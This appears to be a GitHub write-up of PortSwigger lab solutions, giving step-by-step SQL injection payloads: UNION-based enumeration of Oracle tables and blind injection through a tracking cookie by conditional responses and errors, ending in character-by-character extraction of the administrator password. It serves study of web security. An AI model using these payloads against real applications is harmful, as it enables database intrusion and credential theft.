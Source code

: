 # SQL Injection Part 3: Portswigger Labs
### [Lab 10: SQL injection attack, listing the database contents on Oracle](https://0a4000fb036fe53ec00903d500a80086.web-security-academy.net/filter?category=Lifestyle)
**To solve: Login as the administrator**

**STEP 1:**
Find number of columns 
```sql
' UNION SELECT null,null FROM DUAL--
```

**STEP 2:**
Find columns that contains text
```sql
' UNION SELECT 'a', 'a' from DUAL--
```

**STEP 3:**
Output the list of tables in the database 
```sql
' UNION SELECT table_name,null FROM all_tables--
```

**STEP 4:**
Output the column names of the users table
```sql
' UNION SELECT column_name,null FROM all_tab_columns WHERE table_name = 'USERS_RANDOM'--
```

**STEP 5:**
Use the USERNAME_RANDOM and PASSWORD_RANDOM column and USERS_RANDOM table to get credentials
```sql
' UNION SELECT USERNAME_RANDOM,PASSWORD_RANDOM FROM USERS_RANDOM--
```

**STEP 6:**
Login

### [Lab 11: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

**To solve: Login as administrator**

**STEP 1**
Finding vulnerable parameter which here is tracking cookie
```html
trackingId = "xxxxxxxxxxxxx' and 1=0--
```

> If this tracking id exists -> query returns value -> Welcome back message

> If the tracking id doesn't exist -> query returns nothing > no welcome back message

**STEP 2:**
Confirm users table exist
```sql
trackingId = xxxxxxxxxxxxx' and (select 'x' from users LIMIT 1) = 'x'--
```

**STEP 3:**
Confirm that username administrator exists in users table
```sql
trackingId = 'xxxxxxxxxxxxx' and (select username from users where username='administrator') = 'administrator'--
```

**STEP 4:**
Enumerate the password length
```sql
trackingId = 'RVLfBu6s9EZRUVYN' and (select username from users where username = 'administrator' and LENGTH(password) > 1 ) = 'administrator'--
```

> we graually increase the length of password till we don't get welcome back message

> Till 19 character we get welcome back message -> password is exactly 20 character

**STEP 5:**
Enumerate the password
```sql
trackingId = 'RvLfBu6s9EZRLVYN' and (select substring(password,1,1) from users where username='administrator')='a'--
```

> substring divides the password -> This give us oppurunity to bruteforce each character at a time

**STEP 6:**
Login

### [Lab 12: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

**To solve:**
Login as administrator

**STEP 1**
Finding vulnerable parameter which here is tracking cookie
```sql
trackingId = "xxxxxxxxxxxxx' || (select '' FROM dual) ||'
```

> Using ***and*** operator gives error ->> database is oracle
>> trackingId = xxxxxxxxxxxxx' || (select '' FROM dual) ||' ->> No Error


**STEP 2:**
Confirm users table exist
```sql
trackingId = xxxxxxxxxxxxx' and (select 'x' from users LIMIT 1) = 'x'--
```

**STEP 3:**
Confirm that username administrator exists in users table
```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || ' 
```
> 1 is not equal to 0 so ELSE statment is executed ->> No Error

```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || '
```
> This syntax gave error ->> username administrator exist

**STEP 4:**
Determine the password length
```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and LENGTH(password)>1) || '
```
> LENGTH(password) > 19 ) ->> Error

> LENGTH(password) > 20 ) ->> No Error
>> password is of exactly 20 character

**STEP 5:**
Enumerate the password
```sql
trackingId = xxxxxxxxxxxxx' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and substr(password,1,1)='a' || '
```
> Iteratively brute forcing each characters
>> substr(password,1,$1$)='$a$'

**STEP 6:**
Login




